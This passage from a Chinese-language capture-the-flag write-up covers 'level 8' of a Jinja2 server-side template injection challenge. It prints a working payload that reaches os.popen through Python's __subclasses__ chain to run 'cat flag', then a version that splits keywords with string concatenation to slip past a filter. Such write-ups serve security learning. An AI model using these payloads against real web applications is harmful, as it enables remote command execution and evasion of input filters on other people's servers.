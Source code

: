 ### [level 8](#toc_level-8)

[![在这里插入图片描述](assets/1698900310-af530e5da933eff49f0b6fdcf25513d5.png)](https://storage.tttang.com/media/attachment/2022/08/14/0a867607-eb1c-4a43-affc-2461e2c112b4.png)  
这关过滤的有点多，很多关键词都被 ban 了，这个时候可以考虑用字符拼接的方式

```bash
().__class__=()["__cla"+"ss__"] //这里的点被中括号代替了
```

原 payload

```bash
"".__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()
```

修改过后的 payload

```bash
{{""["__cla"+"ss__"]["__ba"+"se__"]["__subcla"+"sses__"]()[133]["__in"+"it__"]["__glo"+"bals__"]['po'+'pen']('cat flag').read()}}
```

[![在这里插入图片描述](assets/1698900310-5f9509462729e8bd89114e034207414f.png)](https://storage.tttang.com/media/attachment/2022/08/14/43e5983b-c086-4b7e-b461-6f76c7e51e8d.png)  
或者这里也可以使用 for+if 语句
